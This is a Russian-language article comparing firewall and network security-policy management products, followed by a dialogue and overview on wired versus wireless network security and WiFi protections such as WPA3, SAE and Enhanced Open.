На данный момент появилось достаточно много вендоров, у которых имеются продукты этого направления. В основной функционал таких продуктов входят возможность автоматизировать процесс изменения правил и политик безопасности, проводить анализ рисков, записывать жизненный цикл изменений, проводить аудит настроек сетевого оборудования на соответствие политикам безопасности и требованиям отраслевых стандартов. В данной статье речь пойдет о таких продуктах, как AlgoSec Firewall Analyzer, RedSeal, SkyBox, FireMon Security Manager, ManageEngine Firewall Analyzer, CenturyLink Managed Firewall Service, SolarWinds Network Firewall Security Management Software. Основными отличиями данных решений являются перечень поддерживаемых устройств, а также стандарты, по которым может происходить аудит на соответствие.

В данной статье мы детально рассмотрим каждое из перечисленных решений и сравним между собой. В качестве основных требований к системе возьмем наиболее запрашиваемые рынком требования – анализ и удобство, профилактика угроз, возможность расследования инцидентов и поддерживаемые устройства. Выделим следующие параметры, согласно нашим требованиям:

1. Перечень поддерживаемых устройств – список устройств, с которыми система может работать;

2. аудит на соответствие стандартам – перечень стандартов, по которым система может производить аудит на соответствие;

3. Возможность построение векторов атак на основе конфигураций и данных со сканера уязвимостей;

4. Просмотр истории изменения конфигов – возможность создавать отчеты для просмотра истории изменений конфигураций устройств;

5. Контроль применения правил – возможность выявления ошибок в правилах, а также высчитывать степень риска для безопасности инфраструктуры при применении тех или иных настроек. Это возможность позволяет не допустить человеческий фактор, а также уменьшить последствия при применении ошибочных правил. Наличие такой возможности у решения будет, как мы считаем, большим плюсом

6. Возможность управления сетевой инфраструктурой – возможность автоматизировано с единой консоли применять правила для разных устройств. Эта возможность значительно упрощает процесс работы администраторам и техническому персоналу, особенно когда речь идет о больших инфраструктурах, когда топология сети может включать в себя множество сетевых устройств, так еще и от разных производителей.






### Коротко о производителях

AlgoSec Firewall Analyzer создан Израильской компанией AlgoSec. Данный продукт может объединить мониторинг и аудит различного сетевого оборудования в своем едином интерфейсе. AlgoSec Firewall Analyzer поддерживает мониторинг и анализ настроек большого перечня устройств. Список поддерживаемых устройств достаточен для покрытия большинства инфраструктурных решений в организациях. Кроме того, имеется возможность оценки рисков – система позволяет быстро обнаружить неправильные или сомнительные настройки, оценить степень их риска для безопасности инфраструктуры, с помощью встроенных механизмов оценки. В данной системе отсутствует возможность построения векторов атак, что является единственным недостатком данного решения.

Калифорнийская компания RedSeal Networks основное направление которой – визуализация и анализа рисков сетевой безопасности. RedSeal позволяет провести комплексный анализ сети (включая облака и виртуальные сети на основе Amazon Web Services и VMware Vshield), а также физической и беспроводной инфраструктуры. RedSeal создает точную модель сети, определяет зоны, вычисляет маршруты атаки в масштабах сети, выявляет проблемы доступа. Основные сферы контроля: сегментация сети, сканирование уязвимостей, тесты на проникновение, оптимизация настроек. Также особенностью данного продукта является поддержка большого количества устройств. Недостатком данного решения будет отсутствие возможности администрировать устройства из единой консоли.

Skybox основана в 2002 году в Израиле. Компания разрабатывает средства анализа рисков в сфере кибербезопасности, а также средства для управления безопасностью. Skybox Security – это набор инструментов, которые направлены на обеспечение безопасности сети, аналитики и отчетности. Эта система позволяет оптимизировать процессы управления безопасностью и повысить их эффективность, провести детальный анализ сети, смоделировать и визуализировать возможные вектора атак без влияния на работоспособность сети, автоматизировать сложные процессы управления уязвимостями и политиками сетевой безопасности. Skybox состоит из следующих модулей:

- Skybox Horizon – модуль визуализации индикаторов угроз.

- Skybox Vulnerability Control – модуль.

- Vulnerability Control - объединяет данные со всех сканеров, систем патч-менеджемента и систем инвентаризации, позволяет визуализировать вектора возможных атак.

- Skybox Firewall Assurance – модуль анализа, оптимизации и контроля всех межсетевых экранов в одной консоли.

- Change Manager – модуль автоматизации изменений настроек межсетевых экранов, оценки их влияния на безопасность сети и соответствия политикам.

- Skybox Network Assurance – модуль визуализации сети, вычисления и визуализации маршрута прохождения трафика.

Данное решение поддерживает 120+ решений ИТ и ИБ. Skybox Security, как и AlgoSec Firewall Analyzer, является одним из лидеров в данном сравнении и соответствует всем параметрам, рассматриваемых в данной статье.

FireMon – американская компания, основанная в 2014 году, поставляет решения по управлению безопасностью сети. Основным продуктом данного вендора является Security Manager. Это решение по управлению политиками безопасности и управлению рисками, которое улучшает уровень безопасности путем повышения эффективности повседневной деятельности, обеспечивая мощный анализ существующей конфигурации и проактивное снижение рисков. Благодаря комплексному анализу правил и автоматизированным рабочим процессам для просмотра правил при помощи данной системы можно устранить технические ошибки и неправильные конфигурации, удалить неиспользуемый доступ, а также просмотреть и уточнить доступ, чтобы оптимизировать производительность устройств, снизить сложность политик и улучшить профиль безопасности. Недостатком FireMon является отсутствие возможности централизованного управления устройствами из единой консоли.

ManageEngine Firewall Analyzer является подразделением корпорации Zoho, штаб-квартира которой находится в США. Решение предназначено для анализа журналов и управления конфигурацией устройств сетевой безопасности. Система позволяет получать уведомления о внесенных изменениях, о возможных сетевых атаках и нарушениях безопасности сети, а также проводить аудит на соответствия. Это решение отлично подойдет для аудита и мониторинга. Но основным недостатком ManageEngine является отсутствие какой-либо возможности взаимодействовать непосредственно с устройствами.

CenturyLink ­–  телекоммуникационная компания, которая предоставляет широкий спектр услуг связи. Одним из продуктов этого вендора является Managed Firewall Service, который обеспечивает круглосуточное управление и мониторинг брандмауэра для расширенных функций контекста и контента UTM NextGen, а также отслеживает угрозы. Данное решение имеет поддержку только четырех производителей межсетевых экранов: Palo Alto Networks, Cisco, Fortinet, Imperva. Система позволяет осуществлять постоянное управление устройствами, реализовывать проактивные обновления устройств. В системе отсутствует возможность контроля применения правил, а также возможность построения вектора атак, что является недостатком.

SolarWinds – компания, которая разрабатывает решения для управления сетями, системами и инфраструктурой предприятия. Network Firewall Security Management Software – одно из решений этого вендора, которое предназначено для управления безопасностью сетевого брандмауэра. В основной функционал этого решения входят непрерывный мониторинг и корреляция событий брандмауэра в реальном времени, мониторинг изменений конфигурации брандмауэра и нарушений политики. Кроме того, имеется возможность автоматизированного управления изменениями конфигурации на разных устройствах без необходимости сложных сценариев и команд консоли.

Подводя итоги, можно сказать, что среди представленных решений есть как те, что соответствуют всем требуемым параметрам, так и те, что отлично подойдут в качестве дополнительного инструмента для мониторинга состояний сетевых устройств, а также для аудита на соответствие вашим политикам или лучшим мировым практикам. Также, не редко происходит апгрейд или полная смена систем с ростом сетевой инфраструктуры.

Хочется отметить и тот факт, что продуктов и решений в этом направлении, а также их характеристик и параметров, намного больше, чем те, что были рассмотрены в рамках сравнительного обзора. Без сомнений решение задач по администрированию сетевой инфраструктуры требуют детального изучения рынка и индивидуальной настройки инструментов, где данный обзор может быть полезным при выборе того или иного решения.

## Вопросы защиты сети

[Особенности защиты беспроводных и проводных сетей](https://clck.ru/RQFRx)

Пусть нас есть два персонажа: консервативно настроенный сетевой администратор, назовем его условно «Сисадмин», привыкший к проводной сети, и новатор, пробующий всё новое и современное, назовем его условно «Гик», который ратует за повсеместное внедрение беспроводных технологий.

*Сисадмин:*

Проводные сети безопаснее беспроводных. Хотя бы потому, что в них гораздо труднее вклиниться, чтобы прочитать трафик.

В любом случае атака на проводную сеть связана с физическим проникновением или нахождением на достаточно близком расстоянии (например, если получить доступ к коммутационном шкафу бизнес-центра). Как вариант, можно использовать инсайдера, чтобы подключить к сети портативное устройство с целью перехвата пакетов или создания шквала ARP запросов для атаки на коммутатор. Но приблизиться или даже проникнуть за периметр в любом случае необходимо.

Если проводная сеть спроектировано грамотно и без сомнительной «экономии», то она очень и очень надежна в отличие от беспроводных сетей.

`Гик:`

Это так, если забыть про человеческий фактор.

Мне не раз приходилось встречать сетевые розетки с активным линком в коридорах офисов. Мало того, такие розетки можно встретить во всевозможных закутках, подсобках и других местах, недоступных для видеонаблюдения. А это серьезная проблема. В такую розетку можно подключить портативное устройство, при помощи которого можно провести те или иные несанкционированные действия с отсылкой результатов, например, по WiFi.

Разумеется, можно и нужно использовать дополнительные меры защиты, такие как port security с фильтрацией по MAC. Но, во-первых, MAC можно подделать, во-вторых, это уже вторая линия обороны. И даже эту линию обороны многие сетевые администраторы предпочитают не использовать. Потому что хлопотно — нужно поддерживать систему защиты в актуальном состоянии, на это нужно время, которого может просто не быть. Эта проблема часто встречается, когда единственный системный администратора занимается всем подряд: от поддержки бухгалтерии до сетевой безопасности.

Но даже если все закрыто и безопасно, остается такая замечательная вещь, как коридорные МФУ. Тут вам, пожалуйста, и свободный порт, и MAC на шильдике написан, и даже патчкорд есть готовый. Вполне можно вечером, когда никто не печатает, вставить этот самый патчкорд в своё портативное устройство, рано утром выключить. При этом камеры видеонаблюдения покажут, что человек подходил к МФУ, а для чего подходил и что он там делал — далеко не всегда удается разобрать. Если при этом на камерах видно, что он держал в руках стопку бумаг, то обычно данный факт не вызывает особых подозрений.

Говорить о проводных сетях, что вот их-то точно никто и никогда не взломает — это неправильно. Другое дело, что для эффективного вмешательства в работу проводных сетей требуется тесный контакт. Проще говоря, кто-то должен подойти и что-то подключить к сети.

*Сисадмин:*

Ну так это перекрывает всё. В случае с беспроводной сетью злоумышленник может действовать на расстоянии. И это является чуть ли не решающим фактором!

`Гик:`

Не всё так однозначно. Трафик по кабелю внутри периметра сети обычно передается в открытом виде. В этом случае если незаконное подключение всё же состоялось, дела обстоят едва ли не хуже, чем в случае доступа по WiFi. Да, можно использовать VLAN, списки доступа ACL, но те же самые механизмы доступны и в беспроводных сетях. В организациях с высоким уровнем секретности применяются дополнительные меры защиты, например, VPN соединение от каждого рабочего места пользователя до центрального узла (сервера). Но в обычной жизни рядового офиса такие строгости встречаются далеко не так часто. Кстати, VPN внутри локальной сети можно применять и для беспроводных сетей.

Если в офисе есть переговорная, в которой проводятся и совещания с сотрудниками, и переговоры с партнерами, то необходимо каждый раз для каждого порта (розетки) прописывать на все устройства разрешения в port security. Представьте, пришли на переговоры важные люди, а их просят предъявить ноутбуки, чтобы сетевой администратор смог разрешить доступ с MAC адресов. В итоге каждый раз прописывать новый порт на коммутаторе будет весьма хлопотно. Отключить port security и ACL — это создать брешь в сети. Вот так и приходится жить между двух огней.

В то же время, данную проблему можно легко решить, если сделать гостевой WiFi.

*Сисадмин:*

Это не совсем так. В случае с коммутатором соединяются только два порта. В управляемых коммутаторах можно настроить зеркалирование порта, но для этого нужно получить доступ к управлению.

А беспроводные сети больше напоминают Ethernet-HUB, когда все устройства слушают один канал, трафик передается сразу по всем направлениям и сами клиенты сети решают, нужен им этот пакет или нет.

Поэтому основная и чуть ли не единственная эффективная защита WiFi — это шифрование трафика.

`Гик:`

Вот мы и выявили два основных «первородных греха» беспроводных соединений: возможность бесконтактного доступа (ради этого они и создавались) и принцип вещания, когда пакет передается в эфир, и устройства сами определяют, принимать пакет или нет.

### Как решается проблемы с безопасностью WiFI

Как известно, абсолютной защиты не бывает, как не бывает идеальных взломов. Основной принцип борьбы заключается в том, чтобы максимально затруднить проведение атаки, сделав результат нерентабельным по отношению к затраченным усилиям.

Поэтому даже когда применяются высоконадежные методы защиты, рекомендуется не игнорировать дополнительные меры (даже самые простые!) в качестве «защиты от дурака».

### Какими средствами мы располагаем?

Чтобы избежать путаницы, имеет смысл разделить все имеющиеся возможности и средства на две группы:

- технологии прямой защиты трафика, такие как шифрование или фильтрация по MAC адресу;
- технологии, изначально предназначенные для других целей, например, для повышения скорости, но при этом косвенным образом усложняющие жизнь злоумышленнику.

Ниже в этой статье мы рассмотрим методы защиты из первой группы. Постараемся уделить внимание и широко известным технологиям, и новинкам, которые появились в более позднее время.

### Скрытие имени WiFi сети

Нехитрый способ — убрать из всеобщего обозрения имя (SSID) своей WiFi сети. На самом деле функция Hide SSID ничего не прячет, а просто перестает открыто оповещать потенциальных клиентов о наличии сети с данным именем. По идее, теперь подключиться будет возможно, если знать имя сети, тип шифрования и пароль.

При скрытом SSID, в открытый доступ все равно транслируется другой идентификатор — BSSID (Basic Service Set Identifie). Поэтому сканеры сетей WiFi могут без особого труда определить нужные параметры. Однако необходимость приложить дополнительные усилия для обнаружения скрытых WiFi сетей в разы снижает активность любопытных глаз и шаловливых рук.

### Фильтрация по MAC

Ещё один «замочек от честных людей». Основан на применении списков доступа (Access Control List, ACL). Чем-то напоминает port security для проводных сетей. Но в беспроводных сетях для защиты от слежения за устройствами (чтобы злоумышленники не могли получить точные данные о реальных клиентах сети) зачастую используется подстановка MAC адресов. Поэтому данный способ годится только для внутреннего периметра сети и требует отключить функцию подстановки MAC на устройствах (как вариант — жестко прописать в настройках разрешенные MAC адрес и имя хоста). Для партнеров, клиентов и других посетителей офиса в этом случае рекомендуется сделать гостевую сеть WiFi. Впрочем, даже такой незатейливый метод ограничения доступа способен снизить число потенциальных нарушителей.

### Охота на Rogue AP

Rogue AP — это чужие точки доступа, которые не подконтрольны сетевому администратору. Например, это может быть точка доступа, которую использует злоумышленник для перехвата паролей и другой секретной информации, когда клиенты корпоративной сети по ошибке пытаются к ней подключиться и передать учетные данные.

Большинство точек доступа компании Zyxel имеют встроенную функцию сканирования радиоэфира с целью выявления посторонних точек.

### Дополнительные функции защиты

Если у злоумышленника не получается вплотную приблизиться к периметру сети, он может попытать использовать точки доступа из соседней сети, например, из другого офиса, в качестве плацдарма для атаки.

Если в качестве контроллера точек доступа используется межсетевой экран, то побороться с этим вполне возможно. Используя методы аутентификации WPA/WPA2-Enterprise, различные реализации Extensible Authentication Protocol (EAP) и встроенный межсетевой экран, маршрутизатор с контроллером беспроводной сети не только находит неавторизованные точки доступа, но и блокирует подозрительные действия в корпоративной сети, которые с большой долей вероятности несут в себе злой умысел.

### Использование ключей для доступа и шифрование трафика

Первоначально беспроводные сети работали в открытом режиме, потом появился WEP (Wired Equivalent Privacy, который впоследствии оказался весьма ненадежным), потом WPA, WPA2...

Популярный сейчас WPA2-PSK (pre-shared key) использует единственный ключ для всех клиентов сети. Помимо того, что при компрометации злоумышленник получает доступ ко всей сети, такой ключ достаточно сложно менять — нужно перенастроить все клиенты. Тем не менее из-за простоты реализации такой метод защиты применяется в домашних сетях и малом бизнесе.

До появления WiFi 6 c WPA3 самым защищенным считался WPA2 Enterprise с использованием индивидуальных динамических ключей, которые могут периодически обновляться без разрыва соединения. Для организации работы с такими ключами используется сервер авторизации (обычно RADIUS).

В Nebula для точек AX появилась функция Dynamic Personal Pre-Shared Key (DPPSK) — усовершенствованная аутентификация через облако, позволяющая использовать разные пароли (PSK) для каждого клиента. Можно указать срок действия для каждого пароля, что позволяет гибко управлять доступом к сети WiFi для большого числа устройств.

### Что нового в WiFi 6?

Точки доступа с поддержкой WiFi 6, и соответственно, более безопасных технологий WPA3 уже доступны для потребителя. Например, у Zyxel выпущена линейка точек доступа бизнес-класса Unified Pro.

Точки доступа Unified Pro Zyxel WAX510D, Unified Pro Zyxel WAX650S, Unified Pro Zyxel NWA110AX поддерживают стандарт 802.11ax (Wi-Fi 6) и управление из облака Nebula, что позволяет применять их для повышения уровня безопасности и скорости работы сети.

Ниже мы рассмотрим самые важные нововведения, которые появились в стандарте 802.11ax (WiFi 6).

### WPA3-Enterprise 192-bit mode

Улучшения в криптографии в первую очередь затронули именно WPA3-Enterprise — это действительно более стойкий и переработанный стандарт.

Для повышения уровня безопасности, WPA3-Enterprise использует:

    256-битный протокол Galois/Counter Mode — для шифрования,
    384-битный Hashed Message Authentication Mode — для создания и подтверждения ключей;
    алгоритмы Elliptic Curve Diffie-Hellman exchange, Elliptic Curve Digital Signature Algorithm — для аутентификации ключей.

В WPA3-Enterprise применяются следующие комбинации шифров, используемых для согласования настроек безопасности во время рукопожатия SSL / TLS:

    TLS_ECDHE_ECDSA_WITH_AES_256_GCM_SHA384, EC DH/DSA условно-безопасная NIST P-384;
    TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384, EC DH/DSA условно-безопасная NIST P-384, RSA от 3072 бит;
    TLS_DHE_RSA_WITH_AES_256_GCM_SHA384 — «облегченный» режим, без EC, RSA от 3072 бит, DH-группа 15.

### WPA3-Personal на смену WPA2-PSK

В качестве замены Pre-Shared Key, о проблемах которого уже сказано выше, в WPA3 используется метод аутентификации SAE, (стандарт IEEE 802.11-2016)

В основу работы положен принцип равноправности устройств. В отличие от обычного сценария, когда одно устройство объявляется как отправляющее запрос (клиент), а второе — устанавливающее право на подключение (точка доступа или маршрутизатор) и они обмениваются сообщениями по очереди, в случае с SAE каждая из сторон может послать запрос на соединение, после чего происходит отправка удостоверяющей информации.

При подключении и идентификации используется метод dragonfly handshake, с применением криптографической защиты для предотвращения кражи пароля.

SAE предоставляет защиту от атаки с переустановкой ключа (Key Reinstallation Attacks, KRACK ), а также от наиболее распространённых offline атак по словарю, когда компьютер перебирает множество паролей, чтобы подобрать подходящий для расшифровки информации, полученной во время PSK-соединений.

В SAE также добавлена дополнительная функция forward secrecy, повышающая уровень безопасности. Предположим, злоумышленник получил возможность сохранить зашифрованные данные, которые маршрутизатор транслирует в Интернет или локальную сеть, чтобы после подбора пароля расшифровать их. При переходе на SAE шифрующий пароль меняется при каждом новом соединении, поэтому злоумышленник получит только пароль от данных, переданных после вторжения.

### Enhanced Open — защита открытых сетей

Это отдельный протокол, разработанный для защиты соединений в открытой сети. Под открытыми сетями на данный момент понимаются сети, когда не требуется предварительная аутентификация, например по ключу (паролю), который в дальнейшем используются как ключ для шифрования.

В Enhanced Open применяется свой метод защиты от перехвата трафика — Opportunistic Wireless Encryption, OWE, описанный в стандарте Internet Engineering Task Force RFC 8110, чтобы защищаться от пассивного подслушивания. Также обеспечивается защита от метода unsophisticated packet injection, когда злоумышленник препятствует работе сети через передачу специальных пакетов данных.

Рекомендуемая сфера применения Enhanced Open — защита гостевых и публичных сетей от пассивного прослушивания.

[Как улучшить защиту периметра сети?](https://habr.com/ru/company/tssolution/blog/439028/)

